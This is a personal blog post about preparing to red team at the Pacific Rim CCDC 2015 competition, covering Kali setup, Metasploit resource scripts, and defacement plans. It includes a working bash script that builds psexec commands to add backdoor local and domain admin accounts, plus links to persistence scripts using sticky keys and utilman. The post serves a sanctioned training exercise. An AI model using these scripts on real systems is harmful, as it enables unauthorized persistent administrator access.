 ```yaml
---
layout: post
title: How I Prepared to Red Team at PRCCDC 2015
summary: A bit about how I prepared for the Pacific Rim CCDC 2015 competition
image: /assets/prccdc2015/prccdc2015-defacement.gif
tags:
- ccdc
commentIssueId: 4
---
```


I had the opportunity to take part in the Pacific Rim CCDC this past weekend and it was a BLAST! It was my first CCDC, so I really didn't know what to expect. I did know that the last thing I would want to be doing is installing and configuring tools during test time.

### Kali
I err'd on the side of installing tools I may not use rather than not installing something I would need. I've got a goto script I use for my setting up a Kali VM and customizing. It installs a ton of tools and scripts that I use. The script can be found [here](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/kali_setup.sh).


Then, I made some manual tweaks:

* Change root password
* Enable autologin within `/etc/gdm3/daemon.conf`
* Disable screen lockout
* Add Leafpad and Screenshot to taskbar
* Alias `msfconsole='msfconsole -r /msfconsole.rc'`
* Add `* * * * * /payload_gen.sh` to crontab

Next up was loading up on wordlists. I rounded up the usual suspects (Cain, John, RockYou, etc) but I knew I would want to add some inconspicuous user accounts and mess with the Blue Team's host file. To accomodate, I found lists of the top 10,000 US last names and internet domain names. I ended up just whipping up a slightly taunting list of 10 usernames that I used day of, but if I needed 10k usernames I had them.

I wrote a quick bash script to create a Metasploit resource script and batch file that creates new local users and add them to the local admin group for persistence sake.

```bash
#!/bin/bash
#by bluescreenofjeff
IFS=$'\n'
USERLISTFILE='/root/Desktop/users.txt'
PASSVAR='StrongPassword1'
OUTFILELOCAL='mass_user_add_local.rc'
OUTBATLOCAL='mass_user_add_local.bat'
OUTFILEDOMAIN='mass_user_add_domain.rc'
OUTBATDOMAIN='mass_user_add_domain.bat'

#BAT Output - local
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes\ >> $OUTBATLOCAL
	echo net user $CURRUSER $PASSVAR >> $OUTBATLOCAL
	echo net localgroup  administrators $CURRUSER  /add >> $OUTBATLOCAL
done

#BAT to RC - local
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILELOCAL
for EACH in `cat $OUTBATLOCAL`
do
	echo set command \" $EACH \" >> $OUTFILELOCAL
	echo run >> $OUTFILELOCAL
done


#BAT Output - domain
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes /domain >> $OUTBATDOMAIN
	echo net user $CURRUSER $PASSVAR /domain >> $OUTBATDOMAIN
	echo net localgroup  administrators $CURRUSER  /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
done

#BAT to RC - domain
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILEDOMAIN
for EACH in `cat $OUTBATDOMAIN`
do
	echo set command \" $EACH \" >> $OUTFILEDOMAIN
	echo run >> $OUTFILEDOMAIN
done
```

[Source](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/mass_user_add_generator.sh)


### Metasploit
Most of the Red Teamers used Cobalt Strike Team Servers as their base of operations, but since I haven't used it that much and didn't want to potentially get shut out of my target boxes because of learning curve. I decided to stick with msfconsole as my main tool for the weekend. My main goal in preparation was to get as much of the time-wasting stuff automated as possible.


* [intel.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/intel.rc) - Runs a number of intel-gathering Windows commands. Run from the Meterpreter prompt.
* [bounce](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bounce.rc) - Restarts a reverse_tcp listener on 443.
* [bouncessl](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bouncessl.rc) - Restarts a reverse_https listener on 443.
* [local500.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/local500.rc) - Sets up for a brute force of the built-in 500 accounts. Modify with `file:///path/to/wordlist` on line 4.
* [winpersist.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc) - Sets up sticky keys, utilman, and display persistence using psexec_command.
* [msfconsole.rc](https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc) - msfconsole startup script. Reference the file path in the alias above. This gets written by the script above



### Commands
The biggest prep item was getting a solid copy/paste command list ready. This was a big focus point of the Red Team this year since the goal was to attack Blue Teams with the same attacks at roughly the same times. The command list has been reposted by Action Dan [here](http://lockboxx.blogspot.com/2015/03/red-teaming-at-prccdc-2015.html). 

In the time leading up to the official start, I pasted every single command from Phase 1's attacks into their own consoles so once the Red Team gets the go-ahead all you have to do is hit enter. 





### Defacement
Though this was my first rodeo, I knew that there would be opportunities to deface some web interfaces and I wanted to be ready to bring some lulz. This is what I settled on:
![I am invincible!](/assets/prccdc2015/prccdc2015-defacement.gif)

[Source](https://github.com/bluscreenofjeff/CCDC-Scripts/tree/master/website-defacement)

Looking back now, I should have also gathered some nice gifs about patching or host hardenening.
     


### Prepping for Next Year
As I mentioned I had a blast this year and hope to attend again next year. Before then there are a few scripts I'd like to have written and in-hand before go-time:

* **ndiff to monitor environment** - Before this year I started tweaking this script from the nmap documentation to diff periodic scans and monitor for network changes. I didn't get it polished enough and now am wondering if it's the best way to get what I'm after, but I'd like to be able to monitor the Blue Team's environment as close to realtime as possible. Spot new hosts, identify restarts, etc.
* **Low-hanging fruit scans** - Along the same lines, I would like a way to constantly check for previously used credentials, previously exploited vulns, etc to try and catch systems when they get reverted. 
* **Script to remove users from admin groups** - This is something my Red cell team manually did this year. We got Domain Admin access and once the final phase of wreaking havoc was called on we ran the resource script to remove all DAs from the Domain Admin, Enterprise Admin, Schema Admin, and Remote Desktop user groups. It would have been much easier to have a script to make that resource script. Simple enough.
* **moar lulz** - Somewhere around the middle of Phase 2 my co-Red cell teamer and I were watching some Boos from Super Mario Bros. chasing the Blue Teamer's mouse and causing them much frustration while trying to write a Disaster Recovery Plan. That was a lot of fun. I'd like to find some more ways to make our presence known to the Blue Teamers without being too destructive and watch them try to remediate us out. VNC, replaced sysinternals tools, things like that would be fun...

If I had to give one piece of advice to a first time Red Teamer, my suggestion is to prepare as much as possible. The LAST thing you want to be doing during the competition is Googling how to run an exploit or how to add yourself to the local admin group. That's not to say you'll avoid it completely-- you most likely won't -- but you want to minimize searching time down to things that are unique to the environment at hand. Automate the basic stuff that takes time, copy/paste the rest.
    